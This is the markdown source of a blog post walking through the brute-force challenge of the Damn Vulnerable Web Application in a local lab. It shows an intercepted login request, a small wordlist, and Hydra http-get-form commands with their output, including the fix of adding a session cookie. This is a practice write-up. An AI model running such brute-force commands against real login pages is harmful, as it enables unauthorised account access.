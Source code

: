 ```yaml
---
layout: post
title:  "DVWA Brute Force"
subtitle: "Damn Vulnerable Web Application"
date:   2017-02-18 12:00:00 -0500
author: "coastal"
header-img: "images/site-resources/dvwa-header.jpg"
---
```


After I took a bit of a break from the netsec stuff to work on a personal project, my [BitTorrent client](coast-client), I am back working on some practice apps again. This series I'm going to be focusing on the OWASP's Damn Vulnerable Web App (DVWA). The first challenge in the app is a brute force for a login page. Let's try a test request and intercept the traffic to see how the login functions:

```
GET /dvwa/vulnerabilities/brute/?username=test&password=test&Login=Login HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/dvwa/vulnerabilities/brute/?username=test&password=test&Login=Login
Cookie: security=low; JSESSIONID=C7D25AE3371371E9E3003D67F7FC0CB0; acopendivids=swingset,dvwa,jotto,phpbb2,redmine; acgroupswithpersist=nada; PHPSESSID=4c0ndf5r1fgerkl58uo6kna4b1
Connection: close
Upgrade-Insecure-Requests: 1
```

Alright, so if we take a look at the ```GET``` request formatting we see that our username and password are just appended onto the ```http://192.168.56.101/dvwa/vulnerabilities/brute/```. 

```
GET /dvwa/vulnerabilities/brute/?username=test&password=test&Login=Login HTTP/1.1
```

As expected the request fails, but we learn the fail condition for the login from the response page.

<img src="{{ site.baseurl }}/images/dvwa/01_brute_force/brute-fail.jpg">


```
Username and/or password incorrect.
```

Let's make a wordlist for the user and admin profiles:

```
root@kali:~/Desktop# cat test-list.txt
user1
user2
user3
user
admin1
admin2
admin3
admin
```

Since we do already know the passwords for these profiles, this is more of an exercise in learning a new tool. For cracking this login we're going to use the Hydra tool. Since we've already written a number of brute-forcing scripts in python and understand how they work at a low-level, let's use Hydra to perform a more robust and 'professional' cracking experience. It is included by default in Kali distributions and has great functionality for network cracking. Taken from the [host site](hydra-link), it is clear that Hydra is a true multi-tool with capabilities to attack: ```telnet, ftp, http, https, smb, several databases, and much more```. Let's see if we can formulate a command for our login page to send it through the Hydra pipeline. 


```
root@kali:~/Desktop# hydra -l admin -P /root/Desktop/test-list.txt -o /root/Desktop/brute-attack.txt 192.168.56.101 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect."
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-02-18 21:22:38
[DATA] max 8 tasks per 1 server, overall 64 tasks, 8 login tries (l:1/p:8), ~0 tries per task
[DATA] attacking service http-get-form on port 80
[80][http-get-form] host: 192.168.56.101   login: admin   password: user
[80][http-get-form] host: 192.168.56.101   login: admin   password: admin1
[80][http-get-form] host: 192.168.56.101   login: admin   password: admin2
[80][http-get-form] host: 192.168.56.101   login: admin   password: admin
[80][http-get-form] host: 192.168.56.101   login: admin   password: user1
[80][http-get-form] host: 192.168.56.101   login: admin   password: user2
[80][http-get-form] host: 192.168.56.101   login: admin   password: user3
[80][http-get-form] host: 192.168.56.101   login: admin   password: admin3
1 of 1 target successfully completed, 8 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-02-18 21:22:40

```

Hmm..well it looks like every one of our username/password requests is returning true. Let's think about any requests to the DVWA without authentication (which we have not included in our requests). If we try to request the brute-force page without a login ```http://192.168.56.101/dvwa/vulnerabilities/brute/```, we are redirected to the login page:

<img src="{{ site.baseurl }}/images/dvwa/01_brute_force/unauthenticated-login.jpg">

Aha! So since we are not authenticated when we make the login attempts, we are redirected to the login page which doesn't contain our false-result flag, and therefore is evaluated to a positive login. So let's attach some authentication to our Hydra attempts by taking authentication cookies from an intercepted request and appending it to the ```H=``` flag in our command:

```
root@kali:~/Desktop# hydra -l user -P /root/Desktop/test-list.txt -o /root/Desktop/brute-attack.txt 192.168.56.101 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=af2qff46iqe3c71vvn3l7tmde1"
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-02-18 20:11:04
[DATA] max 8 tasks per 1 server, overall 64 tasks, 8 login tries (l:1/p:8), ~0 tries per task
[DATA] attacking service http-get-form on port 80
[80][http-get-form] host: 192.168.56.101   login: user   password: user
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-02-18 20:11:06
```

<img src="{{ site.baseurl }}/images/dvwa/01_brute_force/brute-success.jpg">

And we've got it! Hydra seems like a great tool, is quick, and has a wide variety of supported protocol attacks. I'll probably try to use it more frequently when attacking user/server login protocols.

[coast-client]:https://github.com/spencerdodd/coast
[hydra-link]:http://sectools.org/tool/hydra/